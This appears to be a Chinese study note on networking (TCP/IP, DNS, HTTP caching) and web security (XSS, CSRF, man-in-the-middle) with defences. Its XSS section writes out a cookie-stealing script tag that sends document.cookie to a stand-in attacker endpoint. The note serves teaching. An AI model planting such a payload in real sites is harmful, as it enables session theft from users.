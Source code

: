 ```yaml
---
title: 网络
date: 2022-05-04 11:08:20
tags: 知识点
--- 
```


## OSI 7 层参考模型

## TCP/IP 协议

1. 应用层(`HTTP`/`HTTPS`/`DNS`)
2. 传输层(`TCP`/`UDP`)
3. internet 层(`IP`)
4. 网络接口层(`物理接口`)

### TCP

**Transmisson Control Prorocol**

1. 连接建立
2. 可靠性传输
   特点： 三次握手四次挥手

### UDP

**User DataGram Protocol**

1. 非连接，不可靠传输方式
2. 效率高，速度快，适合音频和视频

### DNS

**Domain Name System**
域名解析系统
怎么查找域名：
DNS 域名解析采用的是递归查询的方式，过程，DNS 缓存>根域名服务器>根域名下一级

## HTTP 协议

Hypertext Transfer Protocol
超文本传输协议

## 缓存

数据库缓存、服务器端缓存（`nginx`、`CDN 缓存`）、浏览器缓存  
浏览器缓存由包含很多内容：`HTTP 缓存`、`indexDB`、`cookie`、`localstorage `等等

### HTTP 缓存

强缓存和协商缓存的区别就是，强缓存是不需要发请求到服务器的，而协商缓存是需要浏览器发送请求到服务器判断本地的缓存是否失效，若不失效则不请求服务器，反之请求服务器获取最新资源

### 强缓存

命中强缓存时，状态码为 200（Size 列标识为 from cache）的响应请求，利用 `Expire`s 和` Cache-Control` 控制强缓存。

1. Expires
   该值是响应头的字段，指定缓存到期的时间， `Expires=时间`，该时间为绝对时间，`Last-Modify` 结合使用
2. Cache-Control
   该值是响应头的字段，指定缓存到期的时间，`Cache-Control=max-age+时间`，该事件为相对时间

`Cache-Control` 优先级比 `Expires` 高
优点：  
服务器配置有限，降低服务器压力，1 台服务器能做到 10 台服务器的能力

> <- Expires: xxxx
> <- Cache-Control:max-age=600

### 协商缓存

命中协商缓存时，状态码为 304，利用 `Last-Modify/If-Modify-Since`

1. Last-Modify/If-Modify-Since
   第一次请求服务器，返回时会带上 `Last-Modify` 的响应头，标识着该资源最后修改时间，第二次请求时会带上 `If-Modify-since` 请求头，值为第一次响应的 `Last-Modify` 值，服务器会根据 `If-Modify-since` 判断是否命中缓存，**如果命中则不请求服务器，返回 304**，不返回 `Last-Modify`  
   第一次响应： `Last-Modify`  
   第二次请求： `If-Modify-since`
2. Etag/If-None-Match
   `Etag/If-None-Match` `返回的是一个校验码，Etag` 保证每个资源时唯一的，资源的变化都为导致 Etag 改变，服务器根据浏览器发送的 `If-None-Match` 判断是否命中缓存
   两者会优先验证 `Etag`,两种区别：

- 精度问题，第一种的精度时精确到秒，当资源的改变在秒级的时候，不太准确。所以由了 `Etag`
- 文件定期生成，当内容一样时，无法使用 `Last-Modify` 这一套
- 有可能存在服务器没有准确获取文件修改时间等，`Last-Modify` 也不能使用

> <- last-modifed: xxx
> -> if-modified-since: xxx
> <- etag: bbb
> -> if-noe-match: bbb

# web 安全

## 浏览器如何获取到 Cookie

- 利用接口响应的 Set-Cookie 字段  
  有哪些属性

1. domain
2. max-age、Express
3. httponly
4. name=value

## XSS (Cross-Site-Script) 跨站脚本攻击

恶意攻击者，将一些恶意代码插入到网页，当用户访问的时候自动执行这段代码，从而达到攻击者目的

1. 反射型
   特点： 一次性  
   用户点开带有恶意的 url（含有 script），浏览器将此段发送给服务端，服务端返回客户端，此时浏览器识别到可执行代码将其执行
2. 存储型
   特点：恶意代码存储到服务器  
   攻击者提交含有 script 标签的恶意代码表单到服务器，服务端将其保存，展示给其他用户时执行恶意代码

### 实现过程

1. 将 `<script scr="https://攻击者接口?cookie=document.cookie"> </script>`， 注册成用户名， 提交给服务端，服务端保存
2. 用户登录，如果查看到这个攻击者的账号信息相关，那么会执行恶意代码，将 cookie 拿到，发送到攻击者接口
3. 攻击者事先会收集各种接口，找到相关可以获取到用户的接口
4. 通过 cookie 获取到用户信息（手机号等）等

### 用途

1. 冒充身份
2. 刷点击（注入文章地址）
3. 弹广告（注入一段创建弹窗的代码）
4. 蠕虫病毒（冒充身份去发送邮件，联系人点开又会冒充去发送邮件....）

### 怎么防御

1. 输入过滤，对于特殊符号等不允许提交
2. httponly
3. 转义 HTML 比如： `< => &lt` 、 `> => &gt`

## CSRF (Cross-Site-Request-Forgery) 跨站点请求伪造

诱导受害者去到攻击者的网站，攻击者网站发起了相关请求，并且带上了受害者 cookie，从而可以做一些恶意的操作

前提： 浏览器没有严格执行同源政策，请求所在网站必须和请求的接口同源，就有可能发生 CSRF

### 实现过程

1. 受害者登录信任网站
2. 未关闭含有 cookie 的信任网站
3. 诱导受害者去攻击者网站（如果配合 XSS 此时可能会直接跳转，或者弹窗诱导到攻击者网站）
4. 在攻击者网站（用隐藏表单自动发送请求，img/src 自动 get 请求等骚操作...）发起信任网站相关接口，此时会携带用户的 cookie，冒充用户

### 用途

1. 冒充身份
2. 蠕虫病毒（冒充身份去发送邮件，联系人点开又会冒充去发送邮件....）

### 怎么防御

1. 用验证码，信任网站开启验证码，而攻击者网站没办法获取正确验证码
2. Referer ，表明请求的站点地址，但是有可能存在伪造 `Referer` 头
3. token，客户端接收服务端的 token，保存在隐藏区域（本地存储，隐藏的 html 元素，代码内存等），请求带上 token
4. 使用带有同源政策的浏览器，升级到默认开启严格模式版本

## 中间人攻击

是在数据传输时发生的攻击手段。截取 http 在传输时数据包，获取用户信息，篡改信息，篡改密钥
